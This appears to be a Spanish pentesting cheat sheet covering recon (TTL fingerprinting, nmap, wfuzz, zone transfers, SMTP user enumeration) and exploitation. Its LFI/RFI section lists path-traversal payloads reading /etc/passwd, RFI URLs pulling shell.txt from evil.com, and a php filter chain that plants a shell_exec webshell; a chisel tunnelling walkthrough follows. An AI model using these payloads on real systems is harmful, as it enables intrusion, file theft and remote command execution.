


# Técnicas Generales

### Determinar S.O. de una maquina

Para determinar el S.O. de una maquina tendremos que fijarnos en el numero de `TTL` cuando se hace un `ping`...

```shell
ping -C 1 <VICTIM_IP>
```

Con esto enviaremos un paquete a la maquina victima y sabremos si responde con el mismo paquete, por lo que sabremos que nos hace `ping` y que podriamos interactuar con la misma...

```shell
ping -C 1 <VICTIM_IP> -R
```

Con eso podremos ver de manera mas detallada el proceso que hace el paquete desde nuestra `IP` hasta la suya...

De las dos manera podremos ver la opcion donde pone `ttl=` el numero que ponga ahi podremos determinal si es una maquina `Linux` o `Windows` ya que se diferencian con que la de `Linux` tiene un `ttl` de hasta `64` y las de `Windows` tienen un `ttl` de hasta `128` y para automatizar todo esto con utilizar el siguiente script en `python` nos lo dira directamente...

```python
#!/usr/bin/python3
#coding: utf-8

import re, sys, subprocess
from termcolor import colored

# python3 wichSystem.py <IP>

if len(sys.argv) != 2:
    print("\n[!] Uso: python3 " + sys.argv[0] + " <direccion-ip>\n")
    sys.exit(1)

def get_ttl(ip_address):
    # Usar el comando ping con -c 1 para un solo ping
    proc = subprocess.Popen("ping -c 1 %s" % ip_address, stdout=subprocess.PIPE, shell=True)
    (out, err) = proc.communicate()
    
    # Verificar si hubo un error
    if proc.returncode != 0:
        print(colored("\n[!] Error al hacer ping a la dirección IP\n", 'red'))
        sys.exit(1)
    
    # Convertir la salida a cadena y buscar el valor TTL usando una expresión regular
    out = out.decode('utf-8')
    ttl_value = re.search(r'ttl=(\d+)', out)
    
    # Verificar si se encontró el TTL en la salida
    if ttl_value:
        return ttl_value.group(1)
    else:
        print(colored("\n[!] No se pudo obtener el TTL de la respuesta del ping\n", 'red'))
        sys.exit(1)

def get_os(ttl):
    ttl = int(ttl)

    if ttl >= 0 and ttl <= 64:
        return "Linux"
    elif ttl >= 65 and ttl <= 128:
        return "Windows"
    else:
        return "Not Found"

if __name__ == '__main__':
    ip_address = sys.argv[1]

    ttl = get_ttl(ip_address)
    os_name = colored(get_os(ttl), 'blue')
    print(colored("\n[+] %s (ttl -> %s): %s\n" % (ip_address, ttl, os_name), 'yellow'))
```

### NMAP

Para hacer un `nmap` mas rapido que el tipico...

```shell
nmap -A <IP> -p-
```

Haremos lo siguiente ya que con este comando que se mostrara sera mucho mas rapido y sigiloso...

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG <FILE_NAME>
```

Con esto lo que hacemos es que nos escanee todos los puertos `-p-`, solo nos muestre los abiertos `--open`, lo haga por `TCP` y de forma sigilosa `-sS`, que escane `5000` puertos por segundo `--min-rate 5000`, que nos muestre un triple verbose por lo que nos vaya mostrando los puertos que vaya encontrando con todas estas caracteristicas en vez de tener que esperar hasta que termine `-vvv`, para que no nos aplique resolucion `DNS` `-n`, para desactivar la fase de descubrimiento de host y que sea mas rapido el proceso `-Pn` y para que toda esta informacion nos la guarde en un archivo de texto `-oG <FILE_NAME>`...

El formato con el que se exporta no es el mas bonito y para copiar solo los puertos que se muestran en el archivo de texto que se creo con `nmap` de forma rapida para posteriormente hacer una busqueda mas detallada de ellos, utilizaremos un script...

```python
#!/usr/bin/env python3

import re
import sys
import subprocess

def extract_ports(file_path):
    try:
        with open(file_path, 'r') as file:
            content = file.read()
    except FileNotFoundError:
        print("File not found!")
        return

    # Extraer la dirección IP
    ip_match = re.search(r'^Host: ([\d\.]+)', content, re.MULTILINE)
    ip_address = ip_match.group(1) if ip_match else None

    if ip_address:
        print(f"\t[*] IP Address: {ip_address}")
    else:
        print("No IP address found or extraction failed.")
        return

    # Extraer los puertos abiertos
    ports = re.findall(r'(\d{1,5})/open', content)
    if ports:
        ports_str = ','.join(ports)
        print(f"\t[*] Open ports: {ports_str}")
    else:
        print("No ports found or extraction failed.")
        return

    # Verificar si xclip está instalado
    try:
        subprocess.run(['xclip', '-version'], check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print("[*] xclip is not installed. Ports not copied to clipboard.")
        return

    # Copiar los puertos al portapapeles si xclip está disponible
    try:
        subprocess.run(['xclip', '-sel', 'clip'], input=ports_str.encode(), check=True)
        print("[*] Ports copied to clipboard")
    except subprocess.CalledProcessError as e:
        print(f"[*] Failed to copy ports to clipboard: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <file>")
        sys.exit(1)
    
    extract_ports(sys.argv[1])
```

Ahora tendiendo los puertos copiados haremos un escaneo mas exhaustivo y generando un archivo con el contenido del mismo con el siguiente comando...

```shell
nmap -sCV -p<PORTS> <IP> -oN <FILE_NAME>
```

Si queremos utilizar un script con `nmap` de fuerza bruta para que vaya probando diversas rutas y que nos muestre solo las del estado codigo `200 OK` seria de la siguiente manera...

```shell
nmap --script http-enum -p<PORT> <TARGET> -oN <FILE_NAME>
```

### python3 + cat

Si quieres ver un archivo con colores sin necesidad de utilizar el editor de texto, haciendolo con el binario `cat` + `python3` se podria hacer de la siguiente manera...

```shell
python3
```

Y nos metera dentro del `python3`, seguidamente...

```shell
cat <FILE> -l <PROGRAM_LENGUAJE>
```

Por ejemplo...

```shell
cat <FILE> -l java

cat <FILE> -l bash

cat <FILE> -l sh

cat <FILE> -l python

cat <FILE> -l python3
```

### Busqueda de vulnerabilidades en el reconocimiento

Cuando el `nmap` te reporta los detalles de algunas versiones como el `ssh`, `ftp`, etc... Se pueden buscar de forma rapida si tienen alguna vulnerabilidad en la siguiente `URL`...

URL = https://launchpad.net/

Y tendrias que poner algo parecido a lo siguiente, de ver esto...

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
```

A poner esto...

```
OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
```

### Dominios de IP

Para saber si una `IP` tiene un dominio en concreto podremos hacer lo siguiente...

```shell
nslookup
> server <IP>
> <COMMAND_INFO>
> <IP>
> <DOMAIN_INFO>
```

### whatweb

Para saber que tecnologias, gestores de contenidos, versiones de cada uno de ellos, etc... que estan corriendo detras de una web seria de la siguiente manera...

```shell
whatweb http://<IP>/
```

Con esto nos mostrara la informacion dicha anteriormente...

### Subdominios

En vez de utilizar fuerza bruta y ahorarrtelo se puede utilizar otra tecnica con el siguiente comando...

```shell
dig @<IP> axfr #Enumerar los subdominios
```

Y con eso nos podria descubrir subdominios interesantes y si a parte tenemos un dominio a parte de nuestra `IP`...

```shell
dig @<IP> <DOMAIN> axfr
```

Tambien podriamos mirar otras interesantes...

```shell
dig @<IP> ns #Enumerar los name servers

dig @<IP> mx #Enumerar los servidores de correo
```

#### Wfuzz

Tambien podemos utilizar la herramienta `wfuzz` para poder descubrir `subdominios` a fuerza bruta, si en primer lugar ponemos el siguiente comando...

```shell
wfuzz -c -t 200 -w <WORDLIST> -H "Host: FUZZ.<TARGET>" http://<TARGET>
```

Lo que nos va hacer es que va a probar todas las palabras donde se encuentra la palabra `FUZZ` con los nombres del `wordlist` indicado, devolviendonos un codigo `200 OK`, pero si todas las palabras son un codigo `200 OK` y lo queremos filtrar por los `characters` que es como se suele hacer de primeras veremos que todas las respuestas que nos esta dando tienen unos determinados `characters`, por lo que pondremos un parametro extra para que nos oculte ese numero de `characters` y solo nos muestre el diferente que seria el correcto...

```shell
wfuzz -c --hh=<CHARACTERS_NUMBER> -t 200 -w <WORDLIST> -H "Host: FUZZ.<TARGET>" http://<TARGET>
```

Donde pone `<CHARACTERS_NUMBER>` tendremos que cambiarlo por los `characters` que queremos que no nos muestre...

De la misma forma si sabemos que tiene que ir una palabra por delante del `subdirectorio` la colocaremos antes con un `.` de `FUZZ`, todo esto se puede ir ajustando conforme a las necesidades de cada uno, ya que donde este la palabra `FUZZ` es donde pondra la fuerza bruta de las palabras del diccionario...

```shell
wfuzz -c --hh=<CHARACTERS_NUMBER> -t 200 -w <WORDLIST> -H "Host: <SUBDOMAIN>.FUZZ.<TARGET>" http://<TARGET>
```

Si por ejemplo quieres ocultar los `characters` que se repiten todo el rato dejando asi solo los distintos, haremos lo siguiente...

```shell
wfuzz -c --hc=404 --hh=<CHARACTERS_NUMBER> -t 200 -w <WORDLIST> "http://<IP>/FUZZ"
```

### Crear diccionario a-z

Para crear un diccionario de la a-z podremos automatizarlos todo con el siguiente comando...

```shell
for i in {a..z}; do echo $i; done
```

Info:

```
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
```

Y si lo queremos pasar a un archivo de texto...

```shell
for i in {a..z}; do echo $i; done > dic.txt
```

### Local File Inclusion (LFI)

Esta tecnica se utiliza para poder leer o descubrir archivos delicados ya sea el contenido de una pagina `.php`, el `/etc/passwd`, etc...

Hay varios `Bypasses` que se pueden utilizar si estuvieran sanitizados, en los siguientes comandos se muestra la estructura de lo que podria ser un `LFI` y las tecnicas en cada caso que se deberian de hacer...

Para mas informacion proporciono la siguiente `URL`...

URL = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion

> Estructura de la que puede dar pie a que sea un (LFI)

```
http://example.com/index.php?page=example
```

> Tecnica sin sanitizar nada

```
http://example.com/index.php?page=../../../etc/passwd
```

Si funciona te mostraria el archivo del `passwd` de la maquina victima ya sea mediante codigo interno inspeccionandolo o en la propia pagina web...

> Tecnica añadiendo un `Null Byte`

⚠️ En versiones de `PHP` por debajo de `5.3.4` se puede implementar el `null byte`...

```
http://example.com/index.php?page=../../../etc/passwd%00
```

> Tecnica de doble codificacion

```shell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00 #Con null byte
```

> Tecnica de codificado UTF-8

```shell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00 #Con null byte
```

> Tecnica de trucos para saltar los filtros puestos `Bypass`

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

La mas utilizada es la siguiente...

```
http://example.com/index.php?page=....//....//....//....//etc/passwd
```

Esto se hace por si tiene algun filtro que cuando detecta `../` lo pone vacio, por lo que si hacemos...

```
....// = ../
```

Ya que eliminara los `..` y la `/`...

#### Remote File Inclusion (RFI)

> Tecnica sin filtros

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

Se utiliza para descargarte una archivo de tu maquina `host` e inyectar un `payload`...

> Tecnica con `Null Byte`

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

> Tecnica con doble codificacion

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI / RFI usando wrappers

> Tecnica `Wrapper php://filter`

Utilizando la llamada de `php` para ejecutar lo que le pongamos, podremos hacer lo siguiente...

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

El mas utilizado es el siguiente...

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

Aqui lo que estamos haciendo es que nos muestre de forma codificada en `Base64` el contenido del `index.php` en este caso para que al decodificarlo veamos su contenido y asi podremos ver las funciones de `php` que se utiliza, a parte se puede utilizar con `home`, `user`, etc... Dependiendo del caso...

> Tecnica para automatizar todo esto

Para automatizar todo lo anterior podemos utilizar un script que te genera lo que tienes que indtroducir en la `URL` en el apartado despues del `=`...

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
http://example.com/index.php?cmd=<COMMAND>&page=<CONTENT_GENERATE>
```

### smtp (25)

Si tenemos este puerto abierto y tenemos sospechas de que puede existir un usuario en la maquina podremos comprobarlo de la siguiente manera...

```shell
telnet <IP> 25
> HELO <TARGET_OR_IP>
> (INFO)
> VRFY <USERNAME>
```

Si pones eso y te devuelve lo siguiente `252 2.0.0 <USERNAME>` significa que existe, pero si te devuelve algo parecido como `Denied o Refused` significa que la `IP` esta mal o que no existe...

Tambien podemos utilizar una herramienta que te automatiza todo esto para descubrir usuarios de la siguiente manera...

```shell
smtp-user-enum -M VRFY -U <WORDLIST> -t <IP>
```

Con esto lo que hara es verificar del diccionario que le hemos pasado todas las palabras y nos mostrara las que coincidan sabiendo que existe ese usuario, generalmente se utiliza el siguiente diccionario llamado...

```
SecLists/Usernames/Names/names.txt
```

### Descubrir directorios

A parte de `Gobuster` tambien podemos utilizar una herramienta bastante mas potente llamada `wfuzz`...

```shell
wfuzz -c --hc=404 -t 200 -w <WORDLIST> http://<IP>/FUZZ
```

Con el `-c` estamos añadiendo color a la informacion que adquiramos, con `--hc=404` lo que hacemos es ocultar los codigos `404` ya que no nos interesan por que significa que no existen los directorios, con el `-t 200` lo que hacemos es realizar este escaneo con `200` hilos por lo que ira mas rapidos, como si hicieramos `200` tareas a la vez cada segundo...

Tambien podemos buscar por extensiones, en concreto con especificat haciendo lo siguiente...

```shell
wfuzz -c --hc=404 -t 200 -w <WORDLIST> http://<IP>/FUZZ.<EXTENSION>
```

> EJEMPLO

```shell
wfuzz -c --hc=404 -t 200 -w <WORDLIST> http://<IP>/FUZZ.php
```

Y en este caso te buscara a fuerza bruta los archivos que contengan `.php`...

### Crear 2 o mas directorios a la vez con `mkdir`

Entendiendo que los directorios `/home/user/` existen pero los siguientes no, lo que hara sera crear los directorios que detecte que no exsiste...

```shell
mkdir -p /home/user/example/example2
```

De esta manera se habrian creado 2 directorios a la vez llamados `/example/example2`...

### Curl

Una de los principios basicos para utilizar la herramienta `curl` es cuando quieres hacer una peticion a una pagina web de manera que te lo muestre en terminal el contenido de la misma de forma simple, pero a veces se ve muy mal, por lo que utilizaremos el siguiente comando para que se vea mucho mejor...

```shell
curl -s -X GET "http://<IP>/" | htmlq -p | batcat -l html
```

Con esto lo que haremos sera solicitar la peticion a esa `IP` y que nos la muestre en terminal su contenido a la vez de que nos lo muestre en formato `html` y con el color propio del lenguaje de `html`...

Si por ejemplo nos interesa mas ver lo que hay entre `""` lo que haremos sera filtrar mediante el siguiente comando (Esto lo hacemos ya que normalmente los `css`,`js`, etc... estan entre `""`)

```shell
curl -s -X GET "http://<IP>/" | htmlq -p | batcat -l html | grep -oP '".*?"'
```

Y si queremos a parte filtrar todo eso por un nombre que nos interese buscar...

```shell
curl -s -X GET "http://<IP>/" | htmlq -p | batcat -l html | grep -oP '".*?"' | grep <NAME>\.
```

Tambien para que nos muestre las que no se repitan...

```shell
curl -s -X GET "http://<IP>/" | htmlq -p | batcat -l html | grep -oP '".*?"' | grep <NAME>\. | sort -u
```

Y esto nos mostrara en terminal el contenido filtrado de la pagina acorde a los que estemos buscando...

Generalmente en un `js` viene bien mirar ya que podemos encontrar en el propio codigo `subdominios` o `URL's` interesantes, por lo que si queremos filtrar alguna posible ruta distinta a la conocida por algun `js` encontrado haremos lo siguiente...

```shell
curl -s -X GET "http://<IP>/js/<NAME_JAVASCRIPT>.js"
```

Con esto solo te aparecera su contenido, pero si filtramos por lo que dije anteriormente...

```shell
curl -s -X GET "http://<IP>/js/<NAME_JAVASCRIPT>.js" | grep "\.<EXTENSION_URL>"
```

> EJEMPLO

```shell
curl -s -X GET "http://<IP>/js/<NAME_JAVASCRIPT>.js" | grep "\.htb"
```

o

```shell
curl -s -X GET "http://<IP>/js/<NAME_JAVASCRIPT>.js" | grep "\.com"
```

Y si por ejemplo queremos filtrar por el contenido entre `""` como hicimos anteriormente ya que puede ser contenido sensible y a parte por el comienzo de `http`, tambien seguido de que solo te aparezcan los que no esten repetidos, seria de la siguiente forma...

```shell
curl -s -X GET "http://<IP>/js/<NAME_JAVASCRIPT>.js" | grep -oP ".*?" | grep http | sort -u
```

### Grep

Si nos encontramos dentro de una maquina y queremos filtrar en algunos archivos de configuracion ya sea de `js`, `php`, etc.. alguna palabra que contenga `password` para poder descubrir alguna `password` podremos hacer lo siguiente...

```shell
grep -r -i password
```

### Port Forwarding

Si en una de las maquinas encontramos algun puerto `8000` de forma interna con un `Lavel v8` u otra version que pueda ser explotable, podemos hacer esta tecnica con lagunos repositorios de GitHub o para algun otro puerto que queramos transladar a nuestro `Host` para operar desde ahi ya que sirve para lo mencionado anteriormente (Esta tecnica sirve para transladar algun puerto o depende de lo que quieras hacer a tu `Host` para operar desde ahi mas facilmente)

URL = https://github.com/jpillora/chisel

Utilizaremos la herramienta `chisel` que es la mas utilizada para este tipo de tecnicas y sirve para abrirnos una especie de servidor para que podamos interactuar desde nuestro `Host` como si fuera una `Reverse Shell` haciendo una especie de `tunel` hacia tu `host`...

Una vez clonado en tu maquina `host` hacemos lo siguiente para montarlo...

```shell
go build -ldflags "-s -w" .
```

```shell
upx chisel
```

Con el siguiente comando veremos lo que pesa la herramienta `chisel`...

```shell
du -hc chisel
```

Por lo que abrimos un servidor de `python3` para pasarnos el `chisel` a nuestra maquina victima...

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
wget http://<IP>/chisel
```

```shell
chmod +x chisel
```

Ya ahora para pasarnos el puerto que queremos por ejemplo el puerto `8000` a nuestra maquina `Host` haremos lo siguiente...

> Maquina Host

```shell
./chisel <SERVER_NAME> --reverse -p <PORT>
```

```shell
./chisel server --reverse -p 1234
```

Donde pone `server` es el nombre que le quieras dar a tu "Servidor" y despues de `-p` ponemos el puerto al que queremos abrir el server por ejemplo el `1234`...

Y con eso ya estaria montado el servidor y abierto...

> Maquina victima

```shell
./chisel client <IP>:<SERVER_PORT> R:<TRANSFER_PORT>:127.0.0.1:<PORT>
```

Adaptandolo a nuestro ejemplo quedaria de la siguiente manera...

```shell
./chisel client <IP>:1234 R:8000:127.0.0.1:8000
```

Lo que estamos haciendo aqui es conectarnos desde la maquina victima de tipo `cliente` a nuestra `IP` de la maquina `Host` donde tenemos el servidor corriendo en el puerto `1234` de manera que el parametro `R:` significa que nos estamos pasando en forma de tunel el puerto `8000` de la maquina victima con la `IP` del `localhost` a nuestro puerto `8000` de la maquina `Host`, por lo que una vez echo esto si nos vamos a nuestra maquina `Host` y buscamos por el puerto `8000` en este caso pertenece a una pagina web...

```
URL = http://127.0.0.1:8000/
```

Nos mostrara el contenido del puerto `8000` que contiene la maquina victima...

Por lo que si tiene alguna vulnerabilidad podremos explotarla desde nuestro `Host`...

> EJEMPLO

Si esta pagina tiene un `CMS` llamado `Laravel v8` como ya dije anteriormente puede ser ecplotado por un exploit de GitHub, ya que lo esta ejecutando `root` desde la maquina victima...

URL = https://github.com/nth347/CVE-2021-3129\_exploit

